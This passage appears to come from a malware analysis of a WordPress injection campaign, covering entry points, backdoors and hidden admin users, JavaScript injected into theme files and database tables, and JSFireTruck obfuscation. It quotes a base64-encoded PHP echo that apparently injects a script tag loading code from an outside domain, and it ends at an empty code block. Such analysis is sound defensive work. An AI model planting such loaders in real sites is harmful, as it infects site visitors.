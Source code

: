 *   **Exploited WordPress Vulnerabilities:**
    *   Outdated plugins or themes (leading to file upload flaws, Cross-Site Scripting (XSS), Remote Code Execution (RCE)).
    *   Insecure server or WordPress configurations.
    *   Weak admin credentials susceptible to brute-force attacks.
    *   Abandoned plugins with known Common Vulnerabilities and Exposures (CVEs).

*   **Post-Compromise Actions:** Attackers often deploy PHP shells (e.g., c99) or backdoors to manage further injections, create hidden admin users, and place malicious files (e.g., `wp-corn.php`, `wp-tmp.php`) in core directories. Malicious cron jobs may also be set up to reinfect cleaned sites.

### Injection Mechanisms

*   **Direct File Injection:** Malicious JavaScript is inserted directly into:
    *   Theme files (e.g., `header.php`, `footer.php`, `functions.php`).
    *   Plugin `.php` files.
    *   Randomly named files across various directories.
    *   The script tag itself is frequently obfuscated, for example:

```
echo base64_decode ("c2NyaXB0IHNyYz0iaHR0cHM6Ly9zdGFydHBlcmZlY3Rzb2x1dGlvbnMuY29tL2xvYWQuanMiPjwvc2NyaXB0Pg==");
```

*   **Database Injections:** JavaScript is injected into database tables, such as:
    *   Post content (`wp_posts`).
    *   Widget settings (`wp_options`).
    *   Custom fields or metadata.
    This malicious code is then served dynamically as part of the website's frontend content.

## Stage 2: Obfuscation - Hiding Malicious Intent (JSFireTruck)

The injected JavaScript code is heavily obfuscated using **JSFireTruck**. This technique is an "esoteric and educational programming style" employing a minimal set of only six characters: `[]()!+$` (occasionally `{}`). Despite its minimalist nature, this method produces valid JavaScript executable in any browser or Node.js environment.

Open Node in terminal, paste this
```js
```